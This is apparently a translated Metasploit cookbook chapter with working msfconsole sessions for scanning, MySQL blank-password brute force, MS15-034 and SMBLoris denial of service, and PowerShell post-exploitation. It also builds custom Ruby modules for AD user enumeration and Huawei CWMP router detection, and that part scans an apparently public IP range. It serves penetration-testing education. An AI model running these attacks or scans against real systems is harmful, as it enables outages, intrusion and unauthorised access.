







## 18 使用模块进行渗透测试

本章将介绍以下配方：

- 使用辅助模块
- DoS 攻击模块
- 后利用模块
- 理解模块构建的基础
- 分析现有模块
- 构建自己的后利用模块
- 构建自己的辅助模块

### 简介

Metasploit 框架具有模块化架构，这意味着其所有漏洞利用、有效载荷、编码器等都以模块的形式存在。模块化架构使扩展框架功能变得更容易。任何程序员都可以开发自己的模块并轻松地将其移植到框架中。

### 使用辅助模块

我们在第 12 章《信息收集与扫描》中已经见过一些辅助模块，因此在本配方中我们将重点介绍一些最常用和最有帮助的辅助模块。


## 准备工作

列出可用的辅助模块，我们可以在 `msfconsole` 中使用 `show auxiliary` 命令：



拥有近 1,000 个辅助模块，Metasploit 可能是目前最完整的渗透测试框架之一。

## 如何操作...

我们将从最有用的 HTTP 辅助模块之一 HTTP 目录扫描器开始。该模块可识别给定目录路径中是否存在有趣的目录。默认情况下，它使用 `wmap_dirs.txt` 词典，但你可以指定自己的词典；要运行该模块，我们需要设置目标 IP 地址、范围或 CIDR 标识符。

- 1. 在此示例中，我使用了 Metasploitable 2 目标机器的 IP 地址：

```
msf > use auxiliary/scanner/http/dir_scanner
msf auxiliary(scanner/http/dir_scanner) >
set RHOSTS 192.168.216.129
RHOSTS => 192.168.216.129
msf auxiliary(scanner/http/dir_scanner) > run

[*] Detecting error code
[*] Using code '404' as not found for 192.168.216.129
```

```
[+] Found http://192.168.216.129:80/cgi-bin/
404 (192.168.216.129)
[+] Found http://192.168.216.129:80/doc/ 200
(192.168.216.129)
[+] Found http://192.168.216.129:80/icons/ 200
(192.168.216.129)
[+] Found http://192.168.216.129:80/index/ 404
(192.168.216.129)
[+] Found http://192.168.216.129:80/phpMyAdmin/ 200
(192.168.216.129)
[+] Found http://192.168.216.129:80/test/ 404
(192.168.216.129)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/dir_scanner) >
```

查看输出，我们可以看到它能够找到多个有趣的目录，例如 phpMyAdmin、test、doc、cgi-bin 等

- 2. 另一个有用的辅助模块是 HTTP WebDAV 扫描器，可检测启用了 WebDAV 的 Web 服务器。要使用它，请设置要使用的 PATH 以及目标 IP 地址、范围或 CIDR 标识符：

```
msf > use auxiliary/scanner/http/webdav_scanner
msf auxiliary(scanner/http/webdav_scanner) >
set PATH /dav/
PATH => /dav/
msf auxiliary(scanner/http/webdav_scanner) >
set RHOSTS 192.168.216.129
RHOSTS => 192.168.216.129
msf auxiliary(scanner/http/webdav_scanner) > run

[+] 192.168.216.129 (Apache/2.2.8 (Ubuntu) DAV/2)
has WEBDAV ENABLED
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/webdav_scanner) >
```

- 3. 让我们讨论一个涉及一些额外输入的特定扫描模块。

MySQL 登录实用程序模块是一个暴力破解模块，它会扫描目标上 MySQL 服务器的可用性，并尝试通过暴力攻击登录数据库，使用 Metasploitable 3 机器作为目标：

```
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(scanner/mysql/mysql_login) >
```

```
set USERNAME root
USERNAME => root
msf auxiliary(scanner/mysql/mysql_login) >
set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf auxiliary(scanner/mysql/mysql_login) >
set RHOSTS 192.168.216.10
RHOSTS => 192.168.216.10
msf auxiliary(scanner/mysql/mysql_login) > run

[+] 192.168.216.10:3306 - 192.168.216.10:3306 -
Found remote MySQL version 5.5.20
[+] 192.168.216.10:3306 - 192.168.216.10:3306 -
Success: 'root:'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/mysql/mysql_login) >
```

查看输出，我们可以看到我们能够使用用户名 root 和空白密码登录到 MySQL 服务器。

## DoS 攻击模块

在之前的章节中，我们学习了在各种攻击场景中使用 Metasploit。在本教程中，我们将重点关注拒绝服务（DoS）攻击。DoS 攻击的重点是使资源无法用于其设计目的。DoS 模块帮助渗透测试人员在攻击服务时判断客户端是否容易受到此类攻击。因此，让我们详细讨论其中一些模块。

## 如何操作...

在本教程中，我们将重点关注两种最常被攻击的协议，HTTP 和 SMB。

## HTTP

我们将首先查看 MS15-034 HTTP 协议栈请求处理拒绝服务辅助模块。该模块检查主机是否容易受到 CVE-2015-1635（MS15-034）的攻击，这是一个存在于 HTTP 协议栈（HTTP.sys）中的漏洞，可能导致任意代码执行。

- 1. 要使用该模块，请设置 Metasploitable 3 目标机器的目标 IP 地址并运行它：

```
msf > use auxiliary/dos/http/ms15_034_ulonglongadd
msf auxiliary(dos/http/ms15_034_ulonglongadd) >
set RHOSTS 192.168.216.10
RHOSTS => 192.168.216.10
msf auxiliary(dos/http/ms15_034_ulonglongadd) > run

[*] DOS request sent
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(dos/http/ms15_034_ulonglongadd) >
```

查看目标机器，我们可以验证它容易受到此攻击的影响，该攻击导致机器崩溃并出现蓝屏死机：



## SMB

SMB 是另一项多年来一直受到多个漏洞攻击的协议。SMBLoris 是针对 Microsoft Windows 操作系统的远程且无需凭据的 DoS 攻击。此攻击通过发送 SMB 请求并将 NetBios 会话服务（NBSS）长度标头值设置为最大可能值，从而在目标中消耗大量内存。影响从 Windows 2000 到 Windows 10 的所有现代 Windows 版本，此攻击可能导致业务关键服务不可用。

- 1. 在启动 `msfconsole` 并使用 SMBLoris NBSS 拒绝服务辅助模块之前，我们必须更改系统中的打开文件限制。为此，我们可以使用 `-n` 选项的 `ulimit` 命令来设置打开文件数并将其设置为 99999。然后，在 `msfconsole` 中加载模块，设置目标的 IP 地址并执行攻击：
- 2. 在目标机器上，你应该会看到内存消耗迅速上升，直到机器停止：

```
root@kali:~# ulimit -n 99999
root@kali:~# msfconsole -q
msf > use auxiliary/dos/smb/smb_loris
msf auxiliary(dos/smb/smb_loris) >
set RHOST 192.168.216.11
RHOST => 192.168.216.11
msf auxiliary(dos/smb/smb_loris) > run

[*] 192.168.216.11:445 - Sending packet
from Source Port: 1025
[*] 192.168.216.11:445 - Sending packet
from Source Port: 1026
[*] 192.168.216.11:445 - Sending packet
from Source Port: 1027
[*] 192.168.216.11:445 - Sending packet
from Source Port: 1028
[*] 192.168.216.11:445 - Sending packet
from Source Port: 1029
...
```



DoS 模块不仅允许我们验证系统是否容易受到攻击，还可以测试针对此类攻击的补丁和缓解措施是否有效。你会惊讶于仍容易受到这些攻击的系统数量之多，以及更新破坏先前补丁的频率有多高，从而使系统容易受到旧攻击。

## 后渗透模块

后渗透模块可以在被攻破的目标上运行，以枚举目标、提升权限、收集凭据、进入目标网络等等。后渗透模块取代了已过时且不再受支持的 Meterpreter 脚本。

## 准备工作

拥有超过 300 个后渗透模块，Metasploit 已成为世界上最完整的后渗透工具之一，并且多亏了社区，它正以快速的速度发展。

## 如何操作...

让我们看看一些后渗透模块以及如何使用它们。在本教程中，我们将使用 Windows Powershell 执行后渗透模块在 Meterpreter 会话中执行 PowerShell 脚本。

首先，我们需要在 Metasploitable 3 目标机器上获取一个会话；为此，我们可以使用 Microsoft Windows 已认证用户代码执行漏洞利用模块，然后加载 Windows Powershell 执行后渗透模块，设置 Meterpreter 会话，并指定我们希望在此示例中执行的 PowerShell 命令 $Host ：



成功执行该模块会显示 $Host 命令的结果。后渗透模块为我们提供了强大的后渗透功能，并允许我们自动化最重复的任务。因此，如果你想为 Metasploit 社区做出贡献，那么你可以从事后渗透模块的工作。


## 理解模块构建的基础

到目前为止，我们已经看到了模块的有用性以及它们可以为框架增加的强大功能。为了掌握框架，了解构建和操作模块至关重要。这将帮助我们根据需要快速扩展框架。在接下来的几个配方中，我们将看到如何使用 Ruby 脚本来构建自己的模块并将其导入框架。

### 如何操作...

让我们从模块构建的一些基础开始：

- 1. 在第一行，`require` 方法指定此模块需要加载哪些库：
  
      ```
      require 'msf/core/post/windows/powershell'
      ```
- 2. 以下行定义继承 post 家族属性的类。`post` 模块可以导入多种功能，例如访问文件系统、使用注册表、WMI、LDAP 等：
  
      ```
      class MetasploitModule < Msf::Post
      ```
- 3. `include` 语句可用于将框架的特定功能包含到我们自己的模块中。例如，如果我们正在构建一个 `post` 模块，我们可以将其包含为：
  
      ```
      include Msf::Post::
      ```
- 4. 以下行将把 PowerShell 功能包含到模块中：
  
      ```
      include Msf::Post::Windows::Powershell
      ```
- 5. 以下行包含模块信息，例如模块名称、描述、许可证、作者、平台等：
  
      ```
      def initialize(info={})
        super(update_info(info,
        'Name' => "Windows Powershell Execution Post Module",
        'Description' => %q{
      This module will execute a powershell script in
      a meterpreter session.
      ```

用户还可以在执行前在内存中输入要进行的文本替换。
将 VERBOSE 设置为 true 将输出执行前的脚本以及结果。

```
},
'License' => MSF_LICENSE,
'Platform' => ['windows'],
'SessionTypes' => ['meterpreter'],
'Author' => [
'Nicholas Nam (nick[at]executionflow.org)',
# original meterpreter script
'RageLtMan' # post module and libs
]
))
```

- 6. register_options 允许我们为必需参数设置默认值：

```
register_options(

[
OptString.new('SCRIPT', [true, 'Path to the local PS script or command string to execute']),
])

register_advanced_options(
[
OptString.new('SUBSTITUTIONS', [false, 'Script subs in gsub format - original,sub;original,sub']),
])
```

- 7. 最后，run 方法是实际代码所在的位置：

```
def run
# Make sure we meet the requirements before running
the script, note no need to return
# unless error
raise "Powershell not available" if !
have_powershell?

# Preprocess the Powershell::Script object with
substitutions from Exploit::Powershell
script = make_subs(read_script
(datastore['SCRIPT']), process_subs
(datastore['SUBSTITUTIONS']))

# Execute in session
```

```
print_status psh_exec(script)
print_good "Finished!"
end
```

分析内置脚本是学习更多脚本构建的最佳方式。有大量文档可用于学习模块构建，但学习 Ruby 的最佳方式是分析现有模块。

## 分析现有模块

现在我们在之前的配方中积累了一些关于模块构建的背景知识，下一步将是分析现有模块。

### 准备工作

我们将分析一个 Windows Powershell Execution Post Module，以便更深入地了解模块构建。

我们将从上一个配方中离开的地方继续。我们已经在上一个配方中讨论了模块的基本模板，因此在这里我们将从脚本的主体开始。

我们可以在以下位置找到 Windows Powershell Execution Post Module：

/usr/share/metasploit-framework/modules/post/windows/manage/exec_powershell.rb

### 如何操作...

让我们从分析模块的 run 方法开始，以了解其工作原理：

```
def run
  raise "Powershell not available" if ! have_powershell?
  script = make_subs(read_script(datastore['SCRIPT']),
process_subs(datastore['SUBSTITUTIONS']))

  print_status psh_exec(script)
  print_good 'Finished!'
end
```

- 1. 首先，它验证是否满足要求，在本例中是 PowerShell 是否可用；如果不可用则引发异常：
  
  ```
  raise "Powershell not available" if ! have_powershell?
  ```
- 2. 接下来，它读取并预处理提供的 PowerShell 脚本，并将结果保存在名为 `script` 的变量中：
  
  ```
  script = make_subs(read_script(datastore['SCRIPT']),
  process_subs(datastore['SUBSTITUTIONS'])
  ```
- 3. 最后，它使用预处理的 PowerShell 脚本作为参数调用 `psh_exec` 方法，并使用 `print_status` 将输出打印到屏幕，然后打印单词 `Finished!` 并使用 `print_good`，该方法会在输出前附加特征的 [+] 绿色标记：
  
  ```
  print_status psh_exec(script)
  print_good 'Finished!'
  ```

这是在框架内 post 模块工作原理的快速介绍。您可以根据需要相应地更改现有脚本。这使得平台对于开发来说极其便携。

## 构建自己的后利用模块

现在，我们已经涵盖了足够的模块构建背景知识。在本配方中，我们将看到如何构建自己的模块并将其添加到框架中的示例。构建模块非常方便，因为它们赋予我们根据需要扩展框架的能力。

### 准备工作

让我们构建一个小型后利用模块，该模块将使用 PowerShell 枚举域中的所有用户。我们已经知道如何使用 Windows Powershell Execution Post Module 运行 PowerShell 脚本；然而，输入 PowerShell 命令或为常见任务维护单独的脚本文件可能令人生畏且容易出错。

### 如何操作...

Post 模块根据其行为进行分类，如官方文档中以下列表所示：

| 类别 | 描述 |
|---|---|
| gather | 涉及数据收集/收集/枚举的模块。 |
| gather/credentials | 用于窃取凭据的模块。 |
| gather/forensics | 涉及取证数据收集的模块。 |
| manage | 修改/操作/操纵系统中的某些内容的模块。诸如迁移、注入等与会话管理相关的任务也归于此。 |
| recon | 模块可帮助您从侦察角度了解有关系统的更多信息，但不涉及数据窃取。请理解这与 gather 类型的模块不同。 |
| wlan | 用于 WLAN 相关任务的模块。 |
| escalate | 这已弃用，但由于流行，模块仍保留在此。此处曾是权限提升模块的存放位置。所有权限提升模块不再被视为 post 模块，它们现在是 exploits。 |
| capture | 涉及监控以进行数据收集的模块。例如，键盘记录。 |

由于我们的模块将枚举域用户，我们应该将其放在 gather 类别中，因此我们的目标目录应为：

/usr/share/metasploit-framework/modules/post/windows/gather/

让我们构建我们的后利用模块。

- 1. 首先，我们需要指定要加载哪些库：
  ```
  require 'msf/core/post/windows/powershell'
  ```
- 2. 接下来，定义类并在模块中包含 PowerShell 功能：
  ```
  class MetasploitModule < Msf::Post
    include Msf::Post::Windows::Powershell
  ```
- 3. 然后我们需要填写模块信息：
  ```
  def initialize(info={})
    super(update_info(info,
      'Name' => 'PowerShell Domain User Enumeration',
      'Description' => %q{
        This module will enumerate user accounts
        in the default domain using PowerShell.
      },
      'License' => MSF_LICENSE,
      'Author' => [ 'Daniel Teixeira' ],
      'Platform' => [ 'win'],
      'SessionTypes' => [ 'meterpreter' ]
    ))
  end
  ```
- 4. 对于此模块，我们将使用 PowerShell [adsiSearcher] 类型加速器来搜索 AD 并列出所有用户：
  ```
  user_enum = '([adsiSearcher]"objectcategory=user").findall() | foreach {$_.Path} | ForEach-Object { $_.Split("=",)[1]}'
  ```
- 5. 最后，我们只需要使用 print_status 将命令的输出打印到屏幕：
  ```
  print_status psh_exec(user_enum)
  ```


6. 最后，我们可以用所需的名称保存模块，并使用 .rb 扩展名。以下是完整的模块，我将其命名为 ps_ad_users：

```
##
# This module requires Metasploit:
http://metasploit.com/download
# Current source:
https://github.com/rapid7/metasploit-framework
##

require 'msf/core/post/windows/powershell'

class MetasploitModule < Msf::Post
  include Msf::Post::Windows::Powershell

  def initialize(info={})
    super(update_info(info,
      'Name' => 'PowerShell Domain User Enumeration',
      'Description' => %q{
        This module will enumerate user accounts
        in the default domain using PowerShell.
      },
      'License' => MSF_LICENSE,
      'Author' => [ 'Daniel Teixeira' ],
      'Platform' => [ 'win'],
      'SessionTypes' => [ 'meterpreter' ]
    ))
  end

  def run
    user_enum = '([adsisearcher]"objectcategory=user")
.findall() | foreach {$_.Path} | ForEach-Object
{ $_.Split("=",)[1]}'
    print_status psh_exec(user_enum)
    print_good "Finished!"
  end

end
```

7. 为了测试它，我已将 Active Directory 域服务角色添加到 Metasploitable 3 机器中。为了测试模块，在目标上获取初始会话并加载模块，指定 Meterpreter 会话 ID，然后运行它：

```
msf exploit(windows/smb/psexec) > use post/windows/gather/ps_ad_users
msf post(windows/gather/ps_ad_users) > set SESSION 1
SESSION => 1
msf post(windows/gather/ps_ad_users) > run

[*] Compressed size: 1040
[*] #< CLIXML
Administrator
Guest
vagrant
sshd
sshd_server
leia_organa
luke_skywalker
han_solo
artoo_detoo
c_three_pio
ben_kenobi
darth_vader
anakin_skywalker
jarjar_binks
lando_calrissian
boba_fett
jabba_hutt
greed
chewbacca
kylo_ren
krtbtg
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" ReFId="0"><I>T:System.Management.Automation.PSCustomObject</I><I>T:System.Object</T></TN><MS>I64 N="SourceId">1</I><I64 N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><AI>0</AI><AI>0</AI> /><PI>1</PI><PI>1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD></SD></PR></MS></Obj></Objs>
[*] Finished!
[*] Post module execution completed
msf post(windows/gather/ps_ad_users) >
```

由于使用此模块不需要特权用户，因此在后利用阶段非常有用。

## 构建自己的辅助模块

在撰写本文时，Metasploit Framework 几乎有 1,000 个辅助模块，并且数量一直在增加，因为总会有新的软件和漏洞尚未在框架中提供。因此，在本教程中，我们将学习如何构建自己的辅助模块。

## 准备工作

在本教程中，我们将编写一个辅助模块，用于扫描启用了 **CPE WAN 管理协议 (CWMP)** 的华为家庭路由器。CWMP 是提供商用于远程管理用户驻地设备所使用的协议。它允许自动配置、软件或固件映像管理、软件模块管理、状态和性能管理以及诊断。

## 如何操作...

- 1. 当我们使用 CWMP 默认端口 7547 连接到路由器时，会得到以下答复：



2. 通过使用 curl 并带 -v 选项进行详细输出，我们可以看到发出的请求和路由器的回复：

```
root@kali:~# curl -v http://89.181.67.197:7547
* Rebuilt URL to: http://89.181.67.197:7547/
* Trying 89.181.67.197...
* TCP_NODELAY set
* Connected to 89.181.67.197 (89.181.67.197) port 7547 (#0)
> GET / HTTP/1.1
> Host: 89.181.67.197:7547
> User-Agent: curl/7.56.1
> Accept: */*
>
< HTTP/1.1 401 Unauthorized
< Connection: Keep-Alive
< WWW-Authenticate: Basic realm="HuaweiHomeGateway"
< Content-Length: 0
<
* Connection #0 to host 89.181.67.197 left intact
```

有了这些信息，我们可以构建一个辅助模块来扫描目标范围并识别运行了启用 CWMP 的华为家庭路由器的目标。

由于 Metasploit 可能已经拥有我们正在寻找的基础功能的模块，因此我们首先应该做的是搜索可用模块，看看可以使用什么。

对于本教程，我将从位于 /usr/share/metasploit-framework/modules/auxiliary/scanner/http 文件夹中的 HTTP 版本检测辅助模块 http_version.rb 开始，它具有我们模块所需的所有功能。

3. 再次，我们将只关注 run 方法。这是原始代码：

```
def run_host(ip)
  begin
    connect
    res = send_request_raw({ 'uri' => '/',
      'method' => 'GET' })
    fp = http_fingerprint(:response => res)
    print_good("#{ip}:#{rport} #{fp}") if fp
    report_service(:host => rhost, :port => rport,
      :sname => (ssl ? 'https' : 'http'), :info => fp)
  rescue ::Timeout::Error, ::Errno::EPIPE
  ensure
    disconnect
  end
end
```

正如我们所见，它非常简单：它连接到目标，发送 HTTP GET 请求，使用 http_fingerprint 方法将结果存储在名为 fp 的变量中，然后使用 print_good 打印输出，并使用 report_service 将结果添加到当前工作区。

对于我们的模块，我们将首先更改 initialize 方法。

- 4. 使用 register_options 数据结构，我们可以为模块指定默认端口号，并且由于我们要扫描 CWMP 服务，我们将指定端口 7547：

```
register_options([
  Opt::RPORT(7547),
])
```

- 5. 然后，我们需要比较响应并验证设备是否为华为家庭网关。为此，我们将创建一个名为 huawei 的新变量来保存来自我们路由器的响应：

```
huawei = " ( 401-Basic realm=\"HuaweiHomeGateway\" )"
```

- 6. 接下来，我们将使用 if 语句比较来自目标的响应与来自我们路由器的响应，如果匹配，则打印并保存结果：

```
if fp == huawei
  print_good("#{ip}")
  report_service(:host => rhost, :port => rport,
  :sname => (ssl ? 'https' : 'http'), :info => "CWMP
- Huawei Home Gateway")
end
```

- 7. 这是最终的模块：

```
##
# This module requires Metasploit:
https://metasploit.com/download
# Current source:
https://github.com/rapid7/metasploit-framework
##

require 'rex/proto/http'

class MetasploitModule < Msf::Auxiliary

  include Msf::Exploit::Remote::HttpClient
  include Msf::Auxiliary::WmapScanServer
  include Msf::Auxiliary::Scanner

  def initialize
    super(
      'Name' => 'Huawei Home Gateway CWMP Detection',
      'Description' => 'This module allows the
identification of Huawei Home Gateway routers
with CWMP enabled',
      'Author' => 'Daniel Teixeira',
      'License' => MSF_LICENSE
    )

    register_wmap_options({
      'OrderID' => 0,
      'Require' => {},
    })

    register_options(
      [
        Opt::RPORT(7547),
      ])
  end

  def run_host(ip)
    begin
      connect
      res = send_request_raw({ 'uri' => '/', 'method' => 'GET' })
      fp = http_fingerprint(:response => res)
      huawei = " ( 401-Basic realm=\"HuaweiHomeGateway\" )"
      if fp == huawei
        print_good("#{ip}")
        report_service(:host => rhost, :port => rport,
:sname => (ssl ? 'https' : 'http'), :info => "CWMP
- Huawei Home Gateway")
      end
    rescue ::Timeout::Error, ::Errno::EPIPE
    ensure
      disconnect
    end
  end
end
```

- 8. 将代码保存到 `/usr/share/metasploit-framework/modules/auxiliary/scanner/http` 中的名为 `huawei_cwmp.rb` 的文件中，使用 `msfconsole` 加载模块，设置要扫描的 IP 地址或范围，然后运行模块：

```
msf > use auxiliary/scanner/http/huawei_cwmp
msf auxiliary(scanner/http/huawei_cwmp) >
set RHOSTS 89.181.67.0/24
RHOSTS => 89.181.67.0/24
msf auxiliary(scanner/http/huawei_cwmp) >
set THREADS 256
THREADS => 256
msf auxiliary(scanner/http/huawei_cwmp) > run

[+] 89.181.67.2
[+] 89.181.67.165
[+] 89.181.67.198
...
```

- 9. 由于我们将输出保存到当前工作区，因此可以使用 `host` 和 `services` 命令来显示扫描结果：


## 你可能会喜欢的其他书籍

如果你喜欢这本书，你可能也会对 Packt 出版的其他书籍感兴趣：



### 使用 Kali NetHunter 进行动手渗透测试

Sean-Philip Oriyano, Glen D. Singh

ISBN: 978-1-78899-517-7

- 选择并配置硬件设备以使用 Kali NetHunter
- 在渗透测试期间使用各种工具
- 了解 NetHunter 套件组件
- 发现有效使用紧凑型移动平台的技巧
- 创建自己的 Kali NetHunter 启用设备并为其配置最佳效果
- 学习如何扫描目标并收集信息
- 探索用于测试和审计无线网络和蓝牙设备的硬件适配器



### Kali Linux 无线渗透测试初学者指南 - 第三版

Vivek Ramachandran, Cameron Buchanan

ISBN: 978-1-78883-192-5

- 全面了解 KRACK 攻击
- 为你的实验创建无线实验室
- 嗅探无线数据包、隐藏网络和 SSID
- 捕获并破解 WPA-2 密钥
- 嗅探探测请求并通过其 SSID 历史追踪用户
- 攻击半径身份验证系统
- 嗅探无线流量并收集有趣的数据
- 使用窃取的密钥解密加密流量

## 留下评论 - 让其他读者知道你的想法

请通过在购买书籍的网站上留下评论，与他人分享你对这本书的想法。如果你是在 Amazon 购买的书籍，请在此书的 Amazon 页面上留下诚实的评论。这至关重要，这样其他潜在读者可以看到并利用你的公正意见来做出购买决定，我们可以了解客户对我们产品的看法，而我们的作者可以看到你对他们与 Packt 合作创作的书名的反馈。这只需要你花费几分钟时间，但对其他潜在客户、我们的作者和 Packt 来说都很有价值。谢谢！
